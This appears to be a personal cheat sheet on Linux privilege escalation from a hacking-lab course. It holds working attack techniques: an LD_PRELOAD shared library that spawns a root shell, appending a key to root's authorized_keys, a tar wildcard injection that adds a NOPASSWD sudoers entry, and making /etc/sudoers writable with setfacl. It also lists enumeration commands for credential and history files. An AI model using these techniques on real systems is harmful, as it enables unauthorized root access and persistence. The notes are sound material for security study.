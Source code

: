 # Sudoers
```shell-session
$ sudo -l
```
# Group Memberships
Interesting groups to be part of:
- LXC / LXD
- Docker
- Disk
- ADM
# Cron Jobs
1. **`/etc/crontab`**
2. **`/etc/cron.d`**
3. **`/etc/cron.daily/`**
4. **`/var/spool/cron/crontabs/root`**
# Processes
Check running processes, could hint at possible VM machine, prompting [[VM Escape]].
# User Privileges
1. Sudo
2. SUID
3. Windows Token Privileges
## Sudoers
If the file `etc/sudoers` /could be made editable (for example using `setfacl`, add sudo privileges directly and `sudo su` to get root.
```bash
setfacl -m u:$USER:$perm /etc/sudoers
```
if `setfacl` can be run as sudo from low_priv user.
## Exposed Credentials
* bash_history
* mysql_history
# SSH Keys
If we have read/write access on **`.ssh`**  directory, we can get/create SSH connection.

Generate public-private key and paste the public in server
```bash
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```
# [[Databases]]
# Environment Variables
## `env_keep+=LD_PRELOAD`
If we can run any one command as root with this environment variable, we can load our own malicious shared library here.
```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```shell-session
$ gcc -fPIC -shared -nostartfiles -o exploit.so exploit.c
$ sudo LD_PRELOAD=exploit.so <COMMAND>
```
# Capabilties

# Writeable Files/Directories
```shell-session
$ find / -path /proc -prune -o -type <f/d> -perm -o+w 2>/dev/null
```
# Hidden Files/Directories
```shell-session
$ find / -type <f/d> -name ".*" -ls 2>/dev/null
```
# History Files
```shell-session
$ find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null
```
# Temporary Files
```shell-session
$ ls -l /tmp /var/tmp /dev/shm
```
# Configuration Files
```shell-session
$ find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null
```
# SetUID/SetGID
```shell-session
$ find / -user root -perm -<4/6>000 -exec ls -ldb {} \; 2>/dev/null
```
# System Properties
## OS Release
```shell-session
$ cat /etc/os-release
```
## System Path
```shell-session
$ echo $PATH
```
## Environment Variables
```shell-session
$ env
```
## Environment
```shell-session
$ uname -a
$ lscpu
$ lsblk
$ cat /etc/shells
$ cat /etc/fstab
$ route

$ cat `/etc/resolv.conf`                  # Private DNS?
```
## Installed Applications
```shell-session
$ apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list
$ sudo -V
```
# Wildcard Abuse
When certain applications are run with wildcards, they can be abused:
Example:
```c
# cron job
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```
```shell-session
$ echo 'echo "<user> ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
$ echo "" > "--checkpoint-action=exec=sh root.sh"
$ echo "" > --checkpoint=1
```
This will replace the wildcard with these files which will act as flags for the `tar` command in the cron job.
# Hardening Services
Look out for system defenses such as:
- [Exec Shield](https://en.wikipedia.org/wiki/Exec_Shield)
- [iptables](https://linux.die.net/man/8/iptables)
- [AppArmor](https://apparmor.net/)
- [SELinux](https://www.redhat.com/en/topics/linux/what-is-selinux)
- [Fail2ban](https://github.com/fail2ban/fail2ban)
- [Snort](https://www.snort.org/faq/what-is-snort)
- [Uncomplicated Firewall (ufw)](https://wiki.ubuntu.com/UncomplicatedFirewall)